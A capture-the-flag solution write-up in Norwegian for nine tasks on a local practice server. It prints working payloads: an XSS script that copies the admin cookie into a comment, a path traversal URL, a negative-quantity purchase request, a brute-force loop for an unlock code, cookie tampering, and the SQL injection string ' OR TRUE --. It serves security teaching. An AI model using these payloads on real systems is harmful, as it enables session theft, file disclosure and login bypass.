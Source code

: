 # Løsningsforslag

## oppgave 1:
For å løse denne må man gjøre et kall til /flag endepunktet som står i API dokumentasjonen. Man kan hente ut API key fra spørringene på /oppgeve1 siden, og legge det til som en header i /flag requesten:

`curl --request GET --url http://localhost:8081/oppgave1/rng/flag --header 'X-Api-Key: f414d481-8f7b-41e5-ab5e-05814bb1f509'`

## oppgave 2:
(oppgave 2 fungerer ikke i WSL)
Denne oppgaven benytter XSS for å få "admin" til å sende en verdi som ligger i cookien sin til kommentar feltet. Vi bygger opp et script som kjører når det lastes, og som henter ut flag fra cookie og legger det til som verdien i kommentaren:

`<script> let  fd = new FormData(); fd.append('user', "asd"); fd.append('comment', JSON.stringify({"asd": document.cookie}));  fetch("http://localhost:8081/oppgave2/comments/create", {     method: 'POST',     body: fd, }); </script>`

## Oppgave 3:
I denne oppgaven utnytter vi path traversal til å hente en fil som egentlig ikke skal være tilgjengelig for brukeren. Vi benytter endepunktet for å laste ned instruksjons filen, men modifiserer filbanen til å gå opp i systemet, så til filen der flagget ligger.

http://localhost:8081/oppgave3/download?file=../../../../windows/flag.txt

## Oppgave 4:
Her trenger vi å skaffe penger på serveren. For å gjøre det kan vi kjøpe et negativt flag, som vil gi oss nok penger til å kjøpe et vanlig flag etterpå. Vi finner verdiene til requesten ved å bruke dev tools i browseren.

`curl 'http://localhost:8081/Oppgave4/api/purchase' --data-raw '[{"id":"id1","quantity":-1},{"id":"id2","quantity":0},{"id":"id3","quantity":0}]'`

## Oppgave 5:
Denne oppgaven kan vi løse ved å prøve alle verdier, aka. brute force. Vi kan se hvordan requesten gjhøres ved å bruke dev tools.

(kode fra ChatGPT)
```
async function sendRequest(number) {
    // Format the number with leading zeros (3 digits)
    const formattedNumber = number.toString().padStart(3, '0');

    // Create a FormData object and append the formatted number to it
    const formData = new FormData();
    formData.append('code', formattedNumber);

    // Make the POST request to the server
    const response = await fetch("http://localhost:8081/oppgave5/unlock", {
        method: "POST",
        body: formData
    });

    // Parse the server's response as JSON
    const result = await response.json();
    console.log(`Sent number: ${formattedNumber}, Server response:`, result);

    // Check if the response contains the "error" keyword
    if (!result.hasOwnProperty("error")) {
        console.log("Correct code found! Terminating script.");
        return true; // Return true to indicate success
    }
    return false; // Return false to continue the loop
}

async function countAndSend() {
    for (let i = 0; i < 1000; i++) {
        const success = await sendRequest(i);
        if (success) break; // Terminate if the correct code is found
    }
}

// Start counting and sending requests
countAndSend();
```

## Oppgave 6:
Her har vi ikke noen verifisering av rettigheter på serveren. Det gjør at hvis en bruker endrer verdi i cookie på sin klient så får man adminrettigheter, og tilgang til flagget.

Cookie -> admin: 1

## Oppgave 7:
Dette er en tekst som er encodet i base64, man kan lett finne verktøy online, eller bruke f. eks base64 verktøyet fra GNU Coreutils

`echo <tekst> | base64 -d`

## Oppgave 8:
Flagget i denne oppgaven er gjemt inne i bytes i bildet. Dette er en type kryptografi som heter steganography, som navnet på bildet hintet om. man kan finne verktøy online for å dekode dette.

Steganography online decrypt (https://futureboy.us/stegano/decinput.html)

## Oppgave 9:
Denne oppgaven bruker SQL injection for å logge på serveren. Ved å lage en spørring som returnerer "true" blir man logget på uavhengig av om brukernavn og passord er riktig.

`' OR TRUE --`
